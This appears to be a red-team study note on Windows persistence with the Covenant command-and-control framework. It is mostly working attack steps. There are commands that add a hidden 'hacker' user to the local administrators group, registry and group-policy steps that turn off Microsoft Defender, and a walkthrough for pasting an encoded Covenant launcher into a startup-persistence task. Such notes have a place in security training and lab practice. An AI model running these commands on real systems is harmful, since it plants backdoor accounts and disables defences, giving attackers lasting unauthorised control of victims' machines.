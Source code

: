 ### New User Persistence
- In `Covenant` in a `High` level access shell i.e *administrator access shell*
	- `shellcmd net user hacker3 Password123! /add && net localgroup administrators hacker3 /add`
	- Not a 1 liner:
		- `shellcmd net users hacker Password123! /add` 
		- `shell net localgroup administrators hacker /add`
- Alternatively in a `Medium` level access shell .ie. *user access shell*
	- `powershellimport`
	- `helper.ps1`
	- `powershell helper -custom "cmd.exe /c net user test123 Password123! /add && net localgroup administrators test123 /add"`
- Verify user was created
	- `shell net users`
- Verify user was put into *administrators* group
	- `shell net localgroup administrators`

## Startup Persistence With Covenant
- Ensure the Windows host Firewall does not interfere with testing by disabling it
- Refer too:
	- [[Disable Windows AntiVirus on Startup]]
```bash
- `gpedit`
	- `Computer Configuration`
		- `Administrative Templates`
			- `Windows Components`
				- `Microsoft Defender Antivirus`
					- `Turn off Microsoft Defender Antivirus`
						- `Enabled`
- `regedit` **as administrator**
	- `HKEY_LOCAL_MACHINE`
		- `SOFTWARE`
			- `Policies`
				- `Microsoft`
					- Right click: `Windows Defender`
						- New: `DWORD (32-bit) Value`
							- Name: `DisableAntiSpyware`
							- Double click and set value:
								- `1`
					- Right click: `Windows Defender`
						- New: `Key`
							- Name: `Real-Time Protection`
								- New: `DWORD (32-bit) Value`
									- Name: `DisableAntiSpyware`
									- Double click and set value:
										- `1
- If `gpedit` is not functioning properly refer too:
	- [[Gpedit Issue Resolution]]
```
- On `Covenant` ensure you have a `High` level privilege
	- Click on the `High` level privilege *grunt* in `Grunts` tab
	- Go to `Tasks`
		- GruntTask: `PersistStartup`
		- Go to: `Launchers`
			- `Host`
				- Copy the `EncodedLauncher`
		- Paste the copied payload into `Payload`
		- `Task`
- Restart the Windows Host
